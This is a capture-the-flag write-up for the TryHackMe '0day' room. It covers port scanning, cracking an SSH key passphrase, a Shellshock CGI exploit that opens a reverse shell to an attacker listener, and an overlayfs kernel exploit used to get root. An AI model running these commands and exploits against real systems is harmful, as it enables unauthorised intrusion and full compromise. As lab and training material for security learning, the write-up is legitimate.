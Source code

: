 # [0day](https://tryhackme.com/room/0day) - TryHackMe

`07-08-2025`

[CTF](https://en.wikipedia.org/wiki/Capture_the_flag_%28cybersecurity%29) challenge solved.

## Starting with rustscan & nmap
 - Scanning the target to identify open ports

 ```
 $rustscan -a `cat ip.txt`

 ```

 ```

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

 ```

- We have port 22/tcp and 80/tcp open.


## Scanning more in-depth on the target

`$nmap -sVC -T5 -Pn -oN nmap/deep -p22,80 10.201.64.14`

```
Nmap scan report for 10.201.64.14
Host is up (0.31s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


## Exploring the website on port 80/tcp (http)

- pages on the site (sitemap):

```

200 -    0B  - /admin/
200 -    0B  - /admin/index.html
200 -    1KB - /backup/
403 -  287B  - /cgi-bin/
200 -   13B  - /cgi-bin/test.cgi
200 -  452B  - /js/
200 -   38B  - /robots.txt
200 -   97B  - /secret/
200 -    0B  - /uploads/

```
Found an SSH private key in `/backup`, and the password for the private key was cracked using ssh2john, John the Ripper, and the rockyou.txt wordlist. Password: `letmein`, but no valid user was found to log in with this id_rsa private key, so moving on to analyze the `cgi-bin/test.cgi` and test shellshock exploits.


`$searchsploit shellschock`

```
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Advantech Switch - 'Shellshock' Bash Environment Variable Command Inj | cgi/remote/38849.rb
Apache mod_cgi - 'Shellshock' Remote Command Injection                | linux/remote/34900.py
Bash - 'Shellshock' Environment Variables Command Injection           | linux/remote/34766.php
Bash CGI - 'Shellshock' Remote Command Injection (Metasploit)         | cgi/webapps/34895.rb
Cisco UCS Manager 2.1(1b) - Remote Command Injection (Shellshock)     | hardware/remote/39568.py
dhclient 4.1 - Bash Environment Variable Command Injection (Shellshoc | linux/remote/36933.py
GNU Bash - 'Shellshock' Environment Variable Command Injection        | linux/remote/34765.txt
IPFire - 'Shellshock' Bash Environment Variable Command Injection (Me | cgi/remote/39918.rb
NUUO NVRmini 2 3.0.8 - Remote Command Injection (Shellshock)          | cgi/webapps/40213.txt
OpenVPN 2.2.29 - 'Shellshock' Remote Command Injection                | linux/remote/34879.txt
PHP < 5.6.2 - 'Shellshock' Safe Mode / disable_functions Bypass / Com | php/webapps/35146.txt
Postfix SMTP 4.2.x < 4.2.48 - 'Shellshock' Remote Command Injection   | linux/remote/34896.py
RedStar 3.0 Server - 'Shellshock' 'BEAM' / 'RSSMON' Command Injection | linux/local/40938.py
Sun Secure Global Desktop and Oracle Global Desktop 4.61.915 - Comman | cgi/webapps/39887.txt
TrendMicro InterScan Web Security Virtual Appliance - 'Shellshock' Re | hardware/remote/40619.py

```
- The "Apache mod_cgi" seems to be interesting so copied the exploit.

`$ searchsploit -m linux/remote/34900.py`

- And run the script to see if we get a reverse shell.

`$./34900.py payload=reverse rhost=10.201.64.14 lhost=10.9.1.105 lport=4444`

```
[-] Trying exploit on : /cgi-bin/test.cgi
[!] Successfully exploited
[!] Incoming connection from 10.201.117.71
10.201.117.71> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
- Successfully obtain the reverse shell; now it's time for privilege escalation.


## Privilege escalation

Found the user ryan directory at "/home/ryan", and inside that user directory found the user.txt flag.


After looking a while, found the kernel version of the machine is vulnerable: 
`Linux Ubuntu 3.13.0-32-generic`


- Searched for the version in searchsploit and found the exploit:

 `$ searchsploit Linux ubuntu 3.13.0-32`

 ```
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overla | linux/local/37292.c

 ```

- Copied the exploit to the current working directory

`$ searchsploit -m linux/local/37292.c`


- After compiling the file and running it, got root access:

`$ gcc 37292.c -o exploit && ./exploit`

```
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
```
Obtained access to root:
```
# whoami
whoami
root
# ls /root
ls /root
root.txt

```

Successfully owned the root and obtained the root.txt flag.
